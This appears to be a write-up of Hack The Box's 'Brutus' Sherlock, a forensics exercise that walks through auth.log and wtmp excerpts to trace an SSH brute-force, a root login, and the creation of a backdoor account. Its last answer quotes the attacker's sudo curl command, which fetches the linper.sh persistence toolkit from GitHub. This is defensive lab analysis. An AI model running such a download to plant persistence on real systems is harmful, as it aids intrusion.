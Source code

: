 ```yaml
---
title: Brutus
date: 2024-12-13 11:00:00 +/-TTTT
categories: [DFIR]
tags: [htb]     # TAG names should always be lowercase
description: very easy Sherlock on HackTheBox writeup
author: Fr0stb0lt
---
```


# Brutus

## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?


Opening the logs we start looking for patterns, or rather deviating patterns. A brute force attack would have a lot of requests within a certain time span.
From the start of the log till 06:31:01 we see a lot of sessions opening and closing. After that we see that there are multiple attempts to login as an invalid user: admin. We can see that the attacker is using a different port for each attempt.

```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
---
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460

etc.
```

`65.2.161.68`

2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

Looking for the source IP of the attacker we can search for succesful login attempts. 


```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

`root`

3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

In the zip file where two files: the _auth.log_ file, and also a wtmp file.
We can _parse_ the contents of this file using _utmpdump_. Looking for login sessions of root of the day of the attack and combing this with the source IP of the attacker(which is information we found in the previous tasks), we can find the timestamp: 
```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

` 2024-03-06 06:32:45 `

4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Looking through the logs we search for a succesful login of the _admin_ account. The catch is that the first time the admin user is logged in, its an automated login from the bruteforce attempt. The session gets killed shortly after.
So instead we look for a session which stays open, and actions are carried out by the attacker.

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

`37`

5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Shortly after logging in manually, we can see the attacker adding an user.

```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

 `cyberjunkie`

6. What is the MITRE ATT&CK sub-technique ID used for persistence?

Searching through the _persistance_ tactics we find that making a local account is in fact sub-technique ID _T1136.001_.

![MITRE subtechnique](/assets/img/post_images/Brutus_MITRE.png)
_T1136.001_

7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

We know from the wmtp file that the first terminal session started at _06:32:45_.
Before the user logs in with his new account he ends the session on the admin account at _06:37:24_:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

Subtract the later from the first and you'll find that the session lasted 4 minutes and 39 seconds of _279 seconds_.



8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Looking for an executed command as _cyberjunkie_ with _sudo_ we find the following entry in the auth.log:
`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

